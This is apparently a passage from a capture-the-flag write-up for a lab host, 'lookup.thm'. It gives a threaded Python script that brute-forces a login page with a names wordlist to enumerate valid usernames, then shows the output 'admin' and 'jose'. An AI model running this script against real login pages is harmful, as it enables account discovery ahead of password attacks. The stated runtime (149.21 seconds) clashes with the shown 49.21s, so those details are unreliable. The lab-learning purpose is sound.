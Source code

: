 #### **option ||**
with code python to do that
```py
import requests
from concurrent.futures import ThreadPoolExecutor
import threading

URL = "http://lookup.thm/login.php"
WORDLIST = "/usr/share/wordlists/seclists/Usernames/Names/names.txt"
THREADS = 100
MATCH_TEXT = "Wrong password"  # <-- Change this if your app says "Invalid password" or similar

lock = threading.Lock()

def check_username(username):
    username = username.strip()
    if not username:
        return

    data = {
        "username": username,
        "password": "wrongpass"
    }

    try:
        response = requests.post(URL, data=data, timeout=5)
        if MATCH_TEXT in response.text:
            with lock:
                print(username)
    except requests.RequestException:
        pass  # optionally print error

def main():
    with open(WORDLIST, "r") as file:
        usernames = [line.strip() for line in file if line.strip()]

    with ThreadPoolExecutor(max_workers=THREADS) as executor:
        executor.map(check_username, usernames)

if __name__ == "__main__":
    main()
```

```sh
time python3 Username_Enumeration
```
 that took approximately `149.21` seconds to complete.

```sh                                                                           
admin
jose

real    49.21s
user    22.57s
sys     12.81s
cpu     71%
```
